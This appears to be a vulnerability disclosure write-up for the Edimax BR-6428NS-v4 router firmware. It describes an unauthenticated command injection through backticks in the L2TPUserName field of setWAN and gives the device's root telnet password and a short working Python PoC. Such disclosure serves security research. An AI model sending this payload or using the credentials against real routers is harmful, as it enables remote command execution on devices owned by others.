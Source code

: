 # Command Injection

Execute commands directly on the router via HTTP POST requests.

## Device Information

**Device**: Edimax Wireless Router BR-6428NS-v4

**Firmware Version**: BR-6428NS_v4_1.10

**Firmware Download Link**: https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4

![image-20241012150947135](./images/image-20241012150947135.png)

**Emulation Environment**: ubuntu-18.04.6-desktop-amd64 + [FirmAE](https://github.com/pr0v3rbs/FirmAE) + python-3.6.9

**Emulation Command**:

```shell
sudo ./run.sh -r Edimax ~/Desktop/BR-6428NS_v4_1.10.zip
```

![image-20241012151406971](./images/image-20241012151406971.png)

**Router Homepage**:

![image-20241012153525694](./images/image-20241012153525694.png)

**Telnet**:

Username and password: root/edimaxens

![image-20241012153704459](./images/image-20241012153704459.png)

**Vulnerability Location**: In the firmware package, within the squashfs-root system's /bin/webs ELF file, specifically in the setWAN function.

## Cause of the Vulnerability

The setWAN function accepts arbitrary input for the L2TPUserName parameter without validation, which can execute system commands directly using backticks **`**.

Both wanMode and L2TPUserName are supplied via front-end POST.

![image-20241012145756591](./images/image-20241012145756591.png)

When **wanMode=6**, it enters the command injection logic.

![image-20241012164636592](./images/image-20241012164636592.png)

## PoC

```python
import requests

command = "touch /var/fanxiaoyao"

url = "http://192.168.2.1/goform/setWAN"
data = {
	"wanMode":"6",
	"L2TPUserName":f"`{command}`"
}

r = requests.post(url, data=data)
#print(r.text)
```

**Execution Result**:

![image-20241012165231493](./images/image-20241012165231493.png)